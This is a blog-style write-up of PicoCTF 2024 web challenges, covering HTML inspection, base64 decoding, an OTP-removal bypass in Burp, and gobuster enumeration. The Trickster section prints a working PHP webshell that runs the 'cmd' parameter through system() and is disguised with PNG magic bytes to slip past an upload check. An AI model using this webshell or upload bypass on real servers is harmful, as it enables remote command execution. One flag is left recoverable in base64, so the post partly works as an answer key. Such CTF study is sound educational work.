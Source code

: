 ```yaml
---
title: "PicoCTF 2024: Web Exploitation"
categories: [blog]
tags: [picoctf, coding, ctf, web]
---
```


I have considered myself... practically done with the Forensics category for PicoCTF 2024. It truly is a guessfest whether or not your first solution is correct - I can't believe throwing out a random `find` into the command-line actually gave me the answer for [Mob psycho](picoctf-2024-forensics#mob-psycho)...

Well, here we go again, this time in my arguably best non-forensics category - Web Exploitation! Once again, I will be going through each of the challenges and solving them, while writing out my thought process for each challenge.

> Same thing as Forensics, this blogpost will describe the challenges and give the solutions to them - but I will not be giving out the flag in its entirety. All solutions with the flag in plain text will have the flag replaced by `picoCTF{flag}`.

1. Table of Contents
{:toc}

# WebDecode

> **Difficulty**: Easy \
> **Categories**: none

Well... We're thrown straight into a website that looks *really* suspicious. I'll perform due dilligence and... inspect the site HTML. Nothing in the home page, so I'll go into the About page.

And upon loading the About page, wow, the **very loud** text saying "Try inspecting the page!! You might find it there" really confirms that I'm getting somewhere.

Hitting F12 to open up my DevTools and I immediately see a weird section of HTML:

```html
<section class="about" notify_true="cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9">
   <h1>
    Try inspecting the page!! You might find it there
   </h1>
   <!-- .about-container -->
  </section>
```

That string looks very suspicious. One quick run into the base64 decoder again, using:

```
$ echo "cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9" | base64 -d
```

Aaaaaaaaand we've got it! Very simple challenge.

# Unminify

> **Difficulty**: Easy \
> **Categories**: obfuscation, minification

Yet another webpage, similar to [WebDecode](#web-decode) above. Once again, let's open up our DevTools and scan through the HTML.

It didn't take long before I reached this section of HTML:

```html
<p class="picoCTF{flag}"></p>
```

That's our flag, time to copy it and submit it.

# Bookmarklet

> **Difficulty**: Easy \
> **Categories**: obfuscation, browser

The website gives us another site, in the same template as [Unminify](#unminify). It also gives us a JavaScript bookmarklet to run as well. As it describes itself, it's a bookmarklet - very similar to my Kamaitachi maimai DX [import script](https://github.com/j1nxie/kt-maimaidx-site-importer). Let's create a quick bookmark and throw this in as the URL.

As soon as we click the bookmarklet, the flag shows up as an alert!

# IntroToBurp

> **Difficulty**: Easy \
> **Categories**: none

Well, as described by the challenge name, we'll need [BurpSuite](https://portswigger.net/burp) for this. Let's pull up BurpSuite and open the website in BurpSuite's browser (Proxy > Intercept > Turn on Intercept).

We see a little form that tells us to put our information in, and being the sane person that I am, I will put in my fully 100% real information into this.

![Screenshot of IntroToBurp form](/assets/img/picoctf/introtoburp1.png)

Hitting the Register button, while forwarding the packet as-is to the server, brings us to another form.

![Screenshot of IntroToBurp 2FA](/assets/img/picoctf/introtoburp2.png)

It's asking for an OTP code... but I haven't received anything. Weird. Let's try throwing in a random string... like `a` and submit it. BurpSuite nicely catches that request for us, and we can see the form data `otp=a` in the raw request packet. Let's try... removing that and see what happens!

After removing the OTP code from the form data, we got ourselves a nice malformed... well... form data sent over the wire. Let's see how the server reacts... And we got our flag!

# Trickster

> **Difficulty**: Medium \
> **Categories**: none

This is actually... a pretty tough one if you don't know where to immediately start. I opened up the site that the challenge gave, and there was no clear entry points to... anything, really. Uploading a PNG only gets a result string shown to you, like below.

![Screenshot of Trickster form](/assets/img/picoctf/trickster1.png)

I tried accessing a random directory, e.g. `atlas.picoctf.net:<port>/what`, and I got a 404 Not Found. That's expected. I also see this is running Apache, which means... there's PHP. But we haven't seen any clear entry points to get an arbitrary PHP script running here.

Let's get back to the root site. Sitting here won't do us any good, I guess it's time to use some tools? Using `gobuster`, and running a brute-force for URIs like such:

```
$ gobuster dir --url http://atlas.picoctf.net:<port>/ --wordlist /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://atlas.picoctf.net:<port>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 285]
/.htpasswd            (Status: 403) [Size: 285]
/robots.txt           (Status: 200) [Size: 62]
/server-status        (Status: 403) [Size: 285]
/uploads              (Status: 301) [Size: 333] [--> http://atlas.picoctf.net:49884/uploads/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

We're seeing `robots.txt` that we can access, and `/uploads` being redirected to the root directory - looks like there's gonna be an accessible folder there. Let's try accessing `robots.txt`...

```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

So the *very root* directory of `/uploads/` is not crawled, along with the file `instructions.txt`. Let's try looking at `instructions.txt`.

```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

Interesting... It looks like this doesn't do much validation on the PNG files themselves, other than checking for the `.png` extension *existing* in the file name, and the first few bytes containing `PNG`. I guess the uploaded files will also be stored under `/uploads/<file_name>`? That's an entry for our PHP now, no?

I will modify [easy-simple-php-webshell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985) a tiny bit, so it has the magic bytes for PNG at the top.

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Along with that, I'll add the `.png` extension, saving it as `webshell.png.php` so it passes the extension check. Let's try uploading this. The form accepted it without any complaints! Time to try accessing this webshell under `/uploads/webshell.png.php`.

We're in. Let's try running `ls ../` to see the root directory. There's a weird file with the name `MQZWCYZWGI2WE.txt`. A simple `cat` on this file finally gives us the flag we're looking for!

# Afterwords

The final challenge of this category - titled "elements", honestly deserves a post of its own. It's of another level, and I've never seen myself so stuck on one. With that being said, that's practically all the solvable web challenges for PicoCTF 2024 as of writing this post. Thank you all for reading through to the end!

